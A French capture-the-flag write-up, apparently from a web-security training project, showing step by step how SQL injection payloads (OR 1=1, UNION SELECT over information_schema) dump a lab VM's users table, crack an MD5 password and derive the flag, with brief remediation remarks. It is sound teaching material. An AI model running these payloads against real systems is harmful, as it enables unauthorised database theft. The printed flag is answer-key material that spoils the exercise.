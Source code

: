 Résolution:

Pour savoir si une attaque SQL est possible (c'est a dire utiliser des commandes pour chercher des informations dans la base de donné) depuis le front, j'ai utilisé la commende suivante 1 OR 1=1

Ca affiche toutes les images d'un coup a cette adresse: http://192.168.56.101/index.php?page=member On remarque un user qui a pour surname "GetThe" et pour first name "Flag"

Ensuite la commande suivante nous donne le nom de deux bases de données: 1 UNION select 1, database()

Pour avoir le nom de la table contenant les informations qui nous interesse on peut faire la commande suivante: 1 UNION select 1, table_name from Information_schema.tables where table_schema = database() La table qui nous interesse est "users"

Pour avoir le nom des colones de la table "users", on peut faire une recherche parmis les résultats de la commande suivante: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM information_schema.columns On obtient user_id, first_name, last_name, town, country, planet, Commentaire et countersign.

Si on veut par exemple la colonne Commentaire, on peut utiliser cette commande: 1 UNION SELECT user_id, Commentaire FROM users
on trouve ce message: "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"

Si on veut par exemple la colonne countersign, on peut utiliser cette commande: 1 UNION SELECT user_id, countersign FROM users 
On trouve cette string qui ressemble a un mot de passe : 5ff9d0165b4f92b14994e5c685cdce28

Ce qui décripté donne FortyTwo. Puis en minuscule donne fortytwo ce qui donne le flag en sha256

10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

Il est possible d'escape les caractères spéciciaux comme %20 pour les espaces, pour que le code SQL ne soient plus lisible. C'est possible aussi d'interdir certains caractères ou bout de code comme ' ou 1=1.
